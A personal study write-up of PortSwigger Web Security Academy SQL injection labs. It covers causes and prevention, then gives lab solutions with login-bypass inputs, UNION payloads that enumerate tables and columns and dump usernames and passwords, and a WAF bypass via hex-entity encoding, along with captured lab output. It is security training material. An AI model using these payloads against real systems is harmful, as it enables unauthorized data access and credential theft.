

# [SQLi](https://portswigger.net/web-security/sql-injection)

Causes: 

- weak input validation, unparameterized queries, string concatenation to craft queries
- improper access control
- deprecated function from libraries...

Impact: unauthorized access to sensitive data

Categories: 

- [Retrieving hidden data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data): modify a SQL query → get additional results.
- [Subverting application logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic): change a query → subvert the application's logic.
- [UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks): retrieve data from n tables.
- [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind): the results of a query are not shown in the app's responses.

Prevention:  

- using parameterized queries/ prepared statements

Instead of using this:

```c#
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```

Using this: 

```c#
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?"); 
statement.setString(1, input); 
ResultSet resultSet = statement.executeQuery();
```

[SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Apprentice 

### Lab 1: [SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

- using burpsuite to intercept and modify request
- modify directly the url 

https://0a32007d0320a7ec817f2f18001e0033.web-security-academy.net/filter?category=Accessories%27+or+1=1--




### Lab 2: [SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)


Method 1: Modify the `username` parameter, giving it the value: `administrator'--`

Method 2: Modify the `password` parameter to the value: `'or 1=1 --`

==> login successfully as `administrator`


## Practitioner

### Lab 1: [SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)

Take input from 

- query string
- **JSON-format input**
- **XML-format input**

Step 1: Observation


- Stock check feature: sends `productId` and `storeId`in XML format

- Send request to tab repeater, try `storeId` with `1+1` or `1 union select null` and observe the result

- 

  

  => attack detected

  

Step 2: Bypass the WAF 

[Hackvertor extension](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)

Encode > dec_entities/hex_entities

`<@hex_entities> 1 union select username || '~' || password FROM users </@hex_entities>>`

Copy its output, and sned in tab repeater:


Log in as admin:


### [Lab 2: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

Determine the number of columns that are being returned by the query :


Try to add more null values until the server error disappears & the result include `null` value:


### [Lab 3: SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

- Determine the number of columns that are being returned by the query and which columns contain text data:

  ```http
  GET /filter?category=Gifts'+union+select+'n33r9','n33r99'+from+dual-- 
  ```


=> you see that both 2 columns return text data (if I query 1 column, it returns server error).  

Search for the query to retrieve the database version from the [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), to craft the sqli payload as follow: 

```sql
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```


### [Lab 4: SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)

Using BSp to intercept and modify the req:


Try the `union select` and see that the result of that query returns 2 columns containing text data. 


### [Lab 5: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

- Determine the number of columns and returned data type: the same as the Lab 4: 

  `'+union+select+'n33r9','abcxyz'#`

- retrieve the list of tables in the database: `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`

  

  

  ```html
                      <table class="is-table-longdescription">
                          <tbody>
                          <tr>
                              <th>pg_partitioned_table</th>
                          </tr>
                          <tr>
                              <th>pg_available_extension_versions</th>
                          </tr>
                          <tr>
                              <th>pg_shdescription</th>
                          </tr>
                          <tr>
                              <th>user_defined_types</th>
                          </tr>
                          <tr>
                              <th>udt_privileges</th>
                          </tr>
                          <tr>
                              <th>sql_packages</th>
                          </tr>
                          <tr>
                              <th>pg_event_trigger</th>
                          </tr>
                          <tr>
                              <th>pg_amop</th>
                          </tr>
                          <tr>
                              <th>schemata</th>
                          </tr>
                          <tr>
                              <th>routines</th>
                          </tr>
                          <tr>
                              <th>referential_constraints</th>
                          </tr>
                          <tr>
                              <th>administrable_role_authorizations</th>
                          </tr>
                          <tr>
                              <th>products</th>
                          </tr>
                          <tr>
                              <th>pg_foreign_data_wrapper</th>
                          </tr>
                          <tr>
                              <th>pg_prepared_statements</th>
                          </tr>
                          <tr>
                              <th>pg_largeobject_metadata</th>
                          </tr>
                          <tr>
                              <th>foreign_tables</th>
                          </tr>
                          <tr>
                              <th>sql_implementation_info</th>
                          </tr>
                          <tr>
                              <th>collation_character_set_applicability</th>
                          </tr>
                          <tr>
                              <th>check_constraint_routine_usage</th>
                          </tr>
                          <tr>
                              <th>pg_statio_user_sequences</th>
                          </tr>
                          <tr>
                              <th>pg_cast</th>
                          </tr>
                          <tr>
                              <th>pg_user_mappings</th>
                          </tr>
                          <tr>
                              <th>pg_statio_all_tables</th>
                          </tr>
                          <tr>
                              <th>pg_stat_progress_vacuum</th>
                          </tr>
                          <tr>
                              <th>pg_statio_sys_sequences</th>
                          </tr>
                          <tr>
                              <th>pg_inherits</th>
                          </tr>
                          <tr>
                              <th>pg_stat_xact_all_tables</th>
                          </tr>
                          <tr>
                              <th>column_options</th>
                          </tr
                          <tr>
                              <th>foreign_servers</th>
                          </tr>
                          <tr>
                              <th>sql_features</th>
                          </tr>
                          <tr>
                              <th>pg_stat_wal_receiver</th>
                          </tr>
                          <tr>
                              <th>pg_pltemplate</th>
                          </tr>
                          <tr>
                              <th>constraint_table_usage</th>
                          </tr>
                          <tr>
                              <th>pg_ts_parser</th>
                          </tr>
                          <tr>
                              <th>parameters</th>
                          </tr>
                          <tr>
                              <th>pg_stat_activity</th>
                          </tr>
                          <tr>
                              <th>pg_ts_template</th>
                          </tr>
                          <tr>
                              <th>element_types</th>
                          </tr>
                          <tr>
                              <th>pg_stat_subscription</th>
                          </tr>
                          <tr>
                              <th>pg_stat_all_tables</th>
                          </tr>
                          <tr>
                              <th>pg_locks</th>
                          </tr>
                          <tr>
                              <th>pg_seclabel</th>
                          </tr>
                          <tr>
                              <th>pg_ts_config</th>
                          </tr>
                          <tr>
                              <th>pg_stat_archiver</th>
                          </tr>
                          <tr>
                              <th>pg_stat_ssl</th>
                          </tr>
                          <tr>
                              <th>role_udt_grants</th>
                          </tr>
                          <tr>
                              <th>pg_stat_xact_user_functions</th>
                          </tr>
                          <tr>
                              <th>pg_am</th>
                          </tr>
                          <tr>
                              <th>domain_udt_usage</th>
                          </tr>
                          <tr>
                              <th>column_privileges</th>
                          </tr>
                          <tr>
                              <th>pg_policy</th>
                          </tr>
                          <tr>
                              <th>pg_timezone_names</th>
                          </tr>
                          <tr>
                              <th>domains</th>
                          </tr>
                          <tr>
                              <th>pg_amproc</th>
                          </tr>
                          <tr>
                              <th>pg_replication_origin</th>
                          </tr>
                          <tr>
                              <th>information_schema_catalog_name</th>
                          </tr>
                          <tr>
                              <th>pg_ts_dict</th>
                          </tr>
                          <tr>
                              <th>character_sets</th>
                          </tr>
                          <tr>
                              <th>pg_db_role_setting</th>
                          </tr>
                          <tr>
                              <th>pg_publication</th>
                          </tr>
                          <tr>
                              <th>pg_stat_xact_sys_tables</th>
                          </tr>
                          <tr>
                              <th>foreign_data_wrappers</th>
                          </tr>
                          <tr>
                              <th>routine_privileges</th>
                          </tr>
                          <tr>
                              <th>pg_views</th>
                          </tr>
                          <tr>
                              <th>pg_foreign_table</th>
                          </tr>
                          <tr>
                              <th>pg_statio_sys_indexes</th>
                          </tr>
                          <tr>
                              <th>pg_database</th>
                          </tr>
                          <tr>
                              <th>user_mappings</th>
                          </tr>
                          <tr>
                              <th>pg_class</th>
                          </tr>
                          <tr>
                              <th>pg_foreign_server</th>
                          </tr>
                          <tr>
                              <th>pg_type</th>
                          </tr>
                          <tr>
                              <th>view_column_usage</th>
                          </tr>
                          <tr>
                              <th>applicable_roles</th>
                          </tr>
                          <tr>
                              <th>pg_group</th>
                          </tr>
                          <tr>
                              <th>views</th>
                          </tr>
                          <tr>
                              <th>domain_constraints</th>
                          </tr>
                          <tr>
                              <th>pg_stat_user_tables</th>
                          </tr>
                          <tr>
                              <th>view_table_usage</th>
                          </tr>
                          <tr>
                              <th>pg_transform</th>
                          </tr>
                          <tr>
                              <th>pg_stat_sys_indexes</th>
                          </tr>
                          <tr>
                              <th>role_routine_grants</th>
                          </tr>
                          <tr>
                              <th>role_column_grants</th>
                          </tr>
                          <tr>
                              <th>user_mapping_options</th>
                          </tr>
                          <tr>
                              <th>pg_aggregate</th>
                          </tr>
                          <tr>
                              <th>pg_stat_database_conflicts</th>
                          </tr>
                          <tr>
   
                          <tr>
                              <th>pg_stat_database</th>
                          </tr>
                          <tr>
                              <th>sql_sizing</th>
                          </tr>
                          <tr>
                              <th>triggers</th>
                          </tr>
                          <tr>
                              <th>triggered_update_columns</th>
                          </tr>
                          <tr>
                              <th>pg_tables</th>
                          </tr>
                          <tr>
                              <th>usage_privileges</th>
                          </tr>
                          <tr>
                              <th>foreign_table_options</th>
                          </tr>
                          <tr>
                              <th>pg_index</th>
                          </tr>
                          <tr>
                              <th>pg_prepared_xacts</th>
                          </tr>
                          <tr>
                              <th>pg_description</th>
                          </tr>
                          <tr>
                              <th>pg_auth_members</th>
                          </tr>
                          <tr>
                              <th>pg_statistic_ext</th>
                          </tr>
                          <tr>
                              <th>pg_cursors</th>
                          </tr>
                          <tr>
                              <th>pg_statio_all_sequences</th>
                          </tr>
                          <tr>
                              <th>pg_stat_replication</th>
                          </tr>
                          <tr>
                              <th>pg_settings</th>
                          </tr>
                          <tr>
                              <th>role_table_grants</th>
                          </tr>
                          <tr>
                              <th>pg_statio_all_indexes</th>
                          </tr>
                          <tr>
                              <th>pg_depend</th>
                          </tr>
                          <tr>
                              <th>pg_subscription</th>
                          </tr>
                          <tr>
                              <th>pg_subscription_rel</th>
                          </tr>
                          <tr>
                              <th>columns</th>
                          </tr>
                          <tr>
                              <th>pg_stat_xact_user_tables</th>
                          </tr>
                          <tr>
                              <th>pg_stat_progress_cluster</th>
                          </tr>
                          <tr>
                              <th>sequences</th>
                          </tr>
                          <tr>
                              <th>pg_stats</th>
                          </tr>
                          <tr>
                              <th>pg_seclabels</th>
                          </tr>
                          <tr>
                              <th>pg_attribute</th>
                          </tr>
                          <tr>
                              <th>check_constraints</th>
                          </tr>
                          <tr>
                              <th>pg_rules</th>
                          </tr>
                          <tr>
                              <th>pg_timezone_abbrevs</th>
                          </tr>
                          <tr>
                              <th>pg_default_acl</th>
                          </tr>
                          <tr>
                              <th>pg_stat_gssapi</th>
                          </tr>
                          <tr>
                              <th>pg_stat_sys_tables</th>
                          </tr>
                          <tr>
                              <th>pg_shseclabel</th>
                          </tr>
                          <tr>
                              <th>pg_opclass</th>
                          </tr>
                          <tr>
                              <th>pg_stat_bgwriter</th>
                          </tr>
                          <tr>
                              <th>pg_sequence</th>
                          </tr>
                          <tr>
                              <th>foreign_server_options</th>
                          </tr>
                          <tr>
                              <th>constraint_column_usage</th>
                          </tr>
                          <tr>
                              <th>pg_operator</th>
                          </tr>
                          <tr>
                              <th>pg_extension</th>
                          </tr>
                          <tr>
                              <th>view_routine_usage</th>
                          </tr>
                          <tr>
                              <th>pg_indexes</th>
                          </tr>
                          <tr>
                              <th>pg_replication_slots</th>
                          </tr>
                          <tr>
                              <th>pg_roles</th>
                          </tr>
                          <tr>
                              <th>enabled_roles</th>
                          </tr>
                          <tr>
                              <th>data_type_privileges</th>
                          </tr>
                          <tr>
                              <th>key_column_usage</th>
                          </tr>
                          <tr>
                              <th>pg_sequences</th>
                          </tr>
                          <tr>
                              <th>pg_rewrite</th>
                          </tr>
                          <tr>
                              <th>pg_statio_user_tables</th>
                          </tr>
                          <tr>
                              <th>pg_attrdef</th>
                          </tr>
                          <tr>
                              <th>sql_languages</th>
                          </tr>
                          <tr>
                              <th>pg_tablespace</th>
                          </tr>
                          <tr>
                              <th>pg_stat_all_indexes</th>
                          </tr>
                          <tr>
                              <th>attributes</th>
                          </tr>
                          <tr>
                              <th>pg_language</th>
                          </tr>
                          <tr>
                              <th>pg_opfamily</th>
                          </tr>
                          <tr>
                              <th>pg_publication_rel</th>
                          </tr>
                          <tr>
                              <th>pg_ts_config_map</th>
                          </tr>
                          <tr>
                              <th>pg_statio_sys_tables</th>
                          </tr>
                          <tr>
                              <th>pg_shdepend</th>
                          </tr>
                          <tr>
                              <th>table_constraints</th>
                          </tr>
                          <tr>
                              <th>pg_matviews</th>
                          </tr>
                          <tr>
                              <th>sql_sizing_profiles</th>
                          </tr>
                          <tr>
                              <th>pg_collation</th>
                          </tr>
                          <tr>
                              <th>collations</th>
                          </tr>
                          <tr>
                              <th>table_privileges</th>
                          </tr>
                          <tr>
                              <th>pg_stats_ext</th>
                          </tr>
                          <tr>
                              <th>column_domain_usage</th>
                          </tr>
                          <tr>
                              <th>pg_stat_user_indexes</th>
                          </tr>
                          <tr>
                              <th>pg_publication_tables</th>
                          </tr>
                          <tr>
                              <th>pg_proc</th>
                          </tr>
                          <tr>
                              <th>users_jsnvah</th>
                          </tr>
                          <tr>
                              <th>pg_statio_user_indexes</th>
                          </tr>
                          <tr>
                              <th>pg_available_extensions</th>
                          </tr>
                          <tr>
                              <th>tables</th>
                          </tr>
                          <tr>
                              <th>role_usage_grants</th>
                          </tr>
                          <tr>
                              <th>pg_init_privs</th>
                          </tr>
                          <tr>
                              <th>pg_range</th>
                          </tr>
                          <tr>
                              <th>pg_namespace</th>
                          </tr>
                          <tr>
                          <tr>
                              <th>pg_trigger</th>
                          </tr>
                          <tr>
                              <th>column_udt_usage</th>
                          </tr>
                          <tr>
                              <th>pg_enum</th>
                          </tr>
                       
                          <tr>
                              <th>pg_policies</th>
                          </tr>
                          <tr>
                              <th>pg_user</th>
                          </tr>
                          <tr>
                              <th>column_column_usage</th>
                          </tr>
                          <tr>
                              <th>pg_stat_progress_create_index</th>
                          </tr>
                          <tr>
                              <th>pg_constraint</th>
                          </tr>
                          <tr>
                              <th>pg_stat_user_functions</th>
                          </tr>
                          <tr>
                              <th>pg_conversion</th>
                          </tr>
                          <tr>
                              <th>foreign_data_wrapper_options</th>
                          </tr>
                          </tbody>
                      </table>
                  </div>
              </section>
  ```

  

- Get the details of the columns: 

`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_jsnvah'--`

```html
                       <tr>
                            <th>username_oeefzo</th>
                        </tr>
                       <tr>
                            <th>password_mldxse</th>
                        </tr>
```

- show the username and password of all user:

`'+UNION+SELECT+username_oeefzo,+password_mldxse+FROM+users_jsnvah--`

```html
                        <tr>
                            <th>administrator</th>
                            <td>msxqu3mqnmqsa5n2xblk</td>
                        </tr>
```


### [Lab 6: SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)

note: On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. There is a built-in table on Oracle called `dual`: `UNION SELECT 'abc' FROM dual`

- Define the number of columns and return types: **2 columns and text type**

`'+UNION+SELECT+'abc','def'+FROM+dual--`

- retrieve the list of tables: 

`'+UNION+SELECT+table_name,NULL+FROM+all_tables--`

<image>

- get column name:

`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`

- get creds:

`'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`
